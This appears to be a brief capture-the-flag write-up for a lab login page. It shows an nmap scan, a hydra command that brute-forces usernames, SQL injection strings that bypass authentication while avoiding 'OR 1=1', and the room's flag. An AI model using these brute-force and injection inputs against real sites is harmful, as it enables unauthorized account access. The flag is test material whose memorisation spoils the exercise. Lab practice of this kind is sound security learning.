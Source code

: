 # Lesson Learned?


## nmap scan

```
nmap -sCV 10.10.171.129
```

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-08 10:15 EDT
Nmap scan report for 10.10.171.129
Host is up (0.61s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 2e:54:89:ae:f7:91:4e:33:6e:10:89:53:9c:f5:92:db (RSA)
|   256 dd:2c:ca:fc:b7:65:14:d4:88:a3:6e:55:71:65:f7:2f (ECDSA)
|_  256 2b:c2:d8:1b:f4:7b:e5:78:53:56:01:9a:83:f3:79:81 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Lesson Learned?
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.08 seconds
```



```
http://10.10.171.129/
```


![image](https://github.com/user-attachments/assets/a2ac97e7-2b9d-4e33-9ea8-1a28d80ca032)


if i try ``SQLI``

![image](https://github.com/user-attachments/assets/508faff6-a5cc-4840-9b3f-1f4160e422fd)




> ### so he block ``OR 1=1``


now try to bruteforece username 



```
hydra -L /usr/share/wordlists/seclists/Usernames/Names/names.txt -p asdf 10.10.171.129 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password." 
```

![image](https://github.com/user-attachments/assets/4f78cfff-958e-4a4e-a0a1-78d93ffadc6b)




if i try to put username ``arnold`` and any password

![image](https://github.com/user-attachments/assets/e01339e8-5985-447b-89e0-1a0c7d64fb13)

now will try to inject sql but without using ``or 1=1``

![image](https://github.com/user-attachments/assets/f2b45232-fa17-4b9b-bba8-9b9ab2e9db10)


```
arnold' AND 'x'='x' -- -
arnold' -- -
.....
```





```
THM{aab02c6b76bb752456a54c80c2d6fb1e}
```






















